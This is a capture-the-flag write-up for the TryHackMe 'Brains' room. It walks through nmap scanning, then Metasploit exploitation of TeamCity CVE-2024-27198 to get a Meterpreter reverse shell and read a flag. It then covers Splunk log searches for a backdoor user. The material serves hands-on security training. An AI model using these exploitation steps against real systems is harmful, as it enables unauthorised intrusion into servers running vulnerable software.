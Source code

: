 ![Nmap Scan](Theme%20Brains.JPG)
> 🧠 Room: [Brains](https://tryhackme.com/room/brains)  
> 📅 Date: April 6, 2025  
> 🛡️ Goal: Gain reverse shell & capture the flag  
> 🚨 CVE used: CVE-2024-27198

# RED exploit the server! 
# 1. What is the content of flag.txt in the user's home folder?

<Details>
# 1. First Step: run in the Terminal "nmap -p- "<Target_IP_Address>"

```bash
nmap -p- 10.10.252.192
````
   1. "nmap" -> The network scanner tool
   2. "-p-"  -> Scans all ports (from 1 to 65535). By default, Nmap scans only the top 1000 most common ports.
   3. "<Target_IP_Address>" -> The IP address of the target — in the case of the Brains room
      
   ![Nmap Scan](Brain%20Room%20Nmap%20scan.JPG)
   
# What ports are open and why they matter: 
   1. 22/tcp → ssh (This port is used for Secure Shell (SSH) — remote access to the machine via terminal.)
   2. 80/tcp → HTTP (This is the default HTTP port, used to serve websites.)
   3. 50000/tcp → ibm-db2 (detected by default) This is not a common service for this port. In this specific room (Brains), this port is hosting a TeamCity server, vulnerable to CVE-2024-27198.
   
# Run a targeted service/version scan for PORT 50000 "nmap -sV -p 50000 <Target_IP_Address>"
   ```bash
   nmap -sV -p 50000 10.10.252.192
   ```
   
# 2. Second Step: What port should we investigate further + Using Metasploit (msfconsole) to Exploit the TeamCity Vulnerability
   
   *The most interesting one here is Port 50000: even though it's labeled ibm-db2, we know now it runs TeamCity, which is vulnerable to authentication bypass and remote code execution (RCE).*
   ```bash
   msfconsole
   ```
   1. "msfconsole" -> This launches the Metasploit interface.
   
   ```bash
   search teamcity
   ```
   1. "search teamcity" -> This will list available exploit modules related to TeamCity
   *Look for one like: exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198*
   
#  Use the module:
   ```bash
   use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
   ```
# After loading an exploit module in Metasploit, you should always run: 
   ```bash
   options
   ```
   1. "options" -> This command shows you all the configurable parameters for the selected module
      
   ![Nmap Scan](Brain%20Room%20exploit%20run.JPG)
   
   *We need to set the correct options before running the exploit.*
   ```bash
   set RHOSTS 10.10.252.192     # Target IP address
   set RPORT 50000              # Target port where TeamCity is running
   ```
   *Once all the necessary parameters (like RHOSTS, RPORT) are configured and verified using the options command, it's time to execute the exploit*
   ```bash
   run   #or exploit
   ```
# Expected Output:
   *If the target is vulnerable and the configuration is correct, you should see output similar to this:*
   ```bash
   [*] Started reverse TCP handler on 10.10.X.X:4444
   [*] Sending stage (57971 bytes) to 10.10.X.X
   [*] Meterpreter session 1 opened ...
   ```
   *This confirms that you now have a meterpreter shell on the target machine!*
   
# Now That We Are in Meterpreter...Navigate the file system
   ```bash
   cd /home/cd ubuntu
   ls
   ```
   *Once you find it, read its contents*
   ```bash
   cat flag.txt
   ```
   ![Nmap Scan](Brain%20Room%20flag.JPG)
   
# ✅ CONGRATULATIONS!!! Now we have the first FLAG
# For ethical and platform policy reasons, I cannot display the actual contents of the flag.txt file
   *Instead, here is a simulated example of what the output would look like:*
   
   ```bash
   meterpreter > cat flag.txt
   THM{redacted_for_policy}
   ```
   </Details>

# BLUE lets investigate!
# 1. What is the name of the backdoor user which was created on the server after exploitation?
<Details>
   
# 1. First Step: Access the Web Application
   *Once the target machine is deployed, open your web browser and navigate to the following address:*
   ```bash
   10.10.249.14:8000
   ```
   1. "10.10.249.14" -> The target machine's IP address
   2. "8000" -> The port number
   
# 2. Second Step:  Access Search & Reporting
   
   *In the left-hand panel, you can see a list of installed apps within Splunk; Click on Search & Reporting*
   
   ![Nmap Scan](Brain%20Room%20Web%20search.JPG)
   
# Search for the Backdoor User
   *Now that we are inside Search & Reporting, it's time to use Splunk’s powerful query system to investigate the logs and answer the first question*
   *We're going to search inside the authentication logs (auth.log) for entries related to the creation of new users.*
   
   ```bash
   source="/var/log/auth.log" *new user* #Set Time Range to “All time”
   ```
   ![Nmap Scan](Brain%20Room%20F1.JPG)
